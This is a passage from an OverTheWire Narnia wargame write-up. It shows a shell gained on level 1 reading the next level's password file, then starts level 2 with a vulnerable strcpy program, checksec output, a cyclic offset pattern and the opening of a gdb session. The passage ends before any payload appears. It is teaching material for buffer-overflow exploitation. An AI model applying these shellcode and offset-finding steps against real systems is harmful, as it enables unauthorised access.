 narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
```

## Level 2 -> 3
Let's meet our next challenge!
```
narnia2@narnia:~$ cd /narnia
narnia2@narnia:/narnia$ cat narnia2.c
```
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```
Let's check the protections
```
narnia2@narnia:/narnia$ checksec narnia2
[*] '/narnia/narnia2'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
From what we can see, we can inject and execute shellcode again, since ```NX``` is disabled. Let's find the offset where the ```ret``` instruction pops off the stack. We will use a ```pwndbg```'s ```De Brujin```'s cycle to easily do this:
```
pwndbg> cyclic 200
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/vultur/.cache/.pwntools-cache-3.8/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.2.2 --> 4.3.1).
    Update with: $ pip install -U pwntools
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```
Now let's throw it at our binary
```
narnia2@narnia:/narnia$ gdb ./narnia2
GNU gdb (Debian 7.12-6) 7.12.0.20161007-git
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"